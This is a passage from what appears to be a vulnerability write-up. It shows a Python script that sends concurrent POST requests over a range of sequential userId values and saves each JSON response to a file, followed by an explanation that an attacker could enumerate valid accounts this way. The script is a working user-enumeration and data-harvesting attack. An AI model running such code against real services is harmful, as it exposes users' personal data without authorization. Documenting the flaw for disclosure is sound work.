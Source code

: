 ```python
    "Connection": "keep-alive"
}

# Define the sequence of userIds (e.g., range from 10005 to 10010)
user_id_range = range(10005, 10011)  # Adjust as needed

# Number of concurrent threads (adjust as needed)
num_threads = 3  # You can change this to control concurrency

def send_request(user_id: int) -> None:
    """Send a POST request for a given userId and save the response."""
    try:
        # Update payload with current userId
        payload = {"userId": user_id}
        
        # Send the POST request
        response = requests.post(url, headers=headers, json=payload)
        
        # Check if the response is successful
        response.raise_for_status()
        
        # Parse the response as JSON
        response_json = response.json()
        
        # Save the response to a file named after userId
        filename = f"{user_id}.json"
        with open(filename, 'w') as f:
            json.dump(response_json, f, indent=4)
        
        print(f"Response for userId {user_id} saved to {filename}")

    except requests.exceptions.RequestException as e:
        print(f"Error sending request for userId {user_id}: {e}")
    except ValueError as e:
        print(f"Error parsing JSON response for userId {user_id}: {e}")
    except IOError as e:
        print(f"Error writing to file for userId {user_id}: {e}")

# Use ThreadPoolExecutor to send requests concurrently
with ThreadPoolExecutor(max_workers=num_threads) as executor:
    executor.map(send_request, user_id_range)

print("All requests completed.")
```

This script can be adapted to query a larger range of `userId` values or a specific list of IDs. By examining the saved JSON files, an attacker could identify valid `userId` values based on differences in the response content, such as the presence of user data versus error messages.

## Potential Impact
